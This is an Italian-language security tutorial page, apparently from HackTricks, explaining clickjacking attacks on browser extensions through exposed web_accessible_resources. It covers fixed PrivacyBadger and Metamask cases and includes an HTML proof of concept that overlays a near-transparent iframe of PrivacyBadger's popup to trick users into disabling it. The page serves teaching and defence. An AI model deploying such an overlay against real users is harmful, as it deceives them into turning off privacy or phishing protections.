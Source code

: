 # BrowExt - ClickJacking

{{#include ../../banners/hacktricks-training.md}}

## Informazioni di Base

Questa pagina sfrutterà una vulnerabilità di ClickJacking in un'estensione del Browser.\
Se non sai cos'è il ClickJacking, controlla:

{{#ref}}
../clickjacking.md
{{#endref}}

Le estensioni contengono il file **`manifest.json`** e quel file JSON ha un campo `web_accessible_resources`. Ecco cosa dicono [i documenti di Chrome](https://developer.chrome.com/extensions/manifest/web_accessible_resources) al riguardo:

> Queste risorse sarebbero quindi disponibili in una pagina web tramite l'URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, che può essere generato con il **`extension.getURL method`**. Le risorse autorizzate sono servite con intestazioni CORS appropriate, quindi sono disponibili tramite meccanismi come XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Le **`web_accessible_resources`** in un'estensione del browser non sono solo accessibili tramite il web; operano anche con i privilegi intrinseci dell'estensione. Questo significa che hanno la capacità di:

- Cambiare lo stato dell'estensione
- Caricare risorse aggiuntive
- Interagire con il browser in una certa misura

Tuttavia, questa funzionalità presenta un rischio per la sicurezza. Se una risorsa all'interno di **`web_accessible_resources`** ha una funzionalità significativa, un attaccante potrebbe potenzialmente incorporare questa risorsa in una pagina web esterna. Gli utenti ignari che visitano questa pagina potrebbero attivare involontariamente questa risorsa incorporata. Tale attivazione potrebbe portare a conseguenze indesiderate, a seconda delle autorizzazioni e delle capacità delle risorse dell'estensione.

## Esempio di PrivacyBadger

Nell'estensione PrivacyBadger, è stata identificata una vulnerabilità relativa alla directory `skin/` dichiarata come `web_accessible_resources` nel seguente modo (Controlla il [post originale](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Questa configurazione ha portato a un potenziale problema di sicurezza. In particolare, il file `skin/popup.html`, che viene visualizzato al momento dell'interazione con l'icona di PrivacyBadger nel browser, potrebbe essere incorporato all'interno di un `iframe`. Questo embedding potrebbe essere sfruttato per ingannare gli utenti a cliccare involontariamente su "Disabilita PrivacyBadger per questo sito web". Tale azione comprometterebbe la privacy dell'utente disabilitando la protezione di PrivacyBadger e potenzialmente sottoponendo l'utente a un tracciamento aumentato. Una dimostrazione visiva di questo exploit può essere vista in un esempio video di ClickJacking fornito a [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Per affrontare questa vulnerabilità, è stata implementata una soluzione semplice: la rimozione di `/skin/*` dall'elenco delle `web_accessible_resources`. Questa modifica ha effettivamente mitigato il rischio assicurando che il contenuto della directory `skin/` non potesse essere accessibile o manipolato attraverso risorse web-accessibili.

La soluzione è stata semplice: **rimuovere `/skin/*` dalle `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}
</style>

<div id="stuff">
<h1>Click the button</h1>
<button id="button">click me</button>
</div>

<iframe
src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Esempio Metamask

Un [**post del blog su un ClickJacking in metamask può essere trovato qui**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In questo caso, Metamask ha risolto la vulnerabilità controllando che il protocollo utilizzato per accedervi fosse **`https:`** o **`http:`** (non **`chrome:`** per esempio):

<figure><img src="../../images/image (21).png" alt=""><figcaption></figcaption></figure>

**Un altro ClickJacking risolto** nell'estensione Metamask era che gli utenti potevano **Cliccare per whitelistare** quando una pagina era sospetta di phishing a causa di `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Poiché quella pagina era vulnerabile al Clickjacking, un attaccante poteva abusarne mostrando qualcosa di normale per far cliccare la vittima per whitelistarla senza accorgersene, e poi tornare alla pagina di phishing che sarà whitelistata.

## Esempio Steam Inventory Helper

Controlla la seguente pagina per vedere come un **XSS** in un'estensione del browser è stato concatenato con una vulnerabilità di **ClickJacking**:


{{#ref}}
browext-xss-example.md
{{#endref}}

## Riferimenti

- [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
- [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{{#include ../../banners/hacktricks-training.md}}

